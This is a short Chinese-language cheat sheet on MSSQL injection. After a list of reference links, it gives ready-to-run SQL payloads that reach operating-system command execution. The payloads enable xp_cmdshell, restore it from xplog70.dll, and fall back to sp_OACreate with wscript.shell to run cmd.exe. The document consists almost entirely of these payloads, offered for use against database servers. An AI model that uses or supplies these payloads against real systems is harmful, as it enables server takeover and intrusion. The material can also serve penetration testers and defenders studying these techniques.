 # MSSQL注入

参考：

- https://xz.aliyun.com/t/248
- https://xz.aliyun.com/t/1224
- https://xz.aliyun.com/t/1051
- https://xz.aliyun.com/t/2596

## 命令执行

### 开启`xp_cmdshell`并调用执行命令

```sql
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;  /*开启xp_cmdshell*/

exec master..xp_cmdshell "whoami"  /*执行命令*/

Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll' /*使用xplog70.dll恢复xp_cmdshell*/
```

![](/images/19-7-12_SQL_MSSQL注入_1.png)

#### xp_cmdshell被删除，使用SP_OACreate

```sql
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'show advanced options', 0;

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >d:\\1.txt'   //
```

![](/images/19-7-12_SQL_MSSQL注入_2.png)

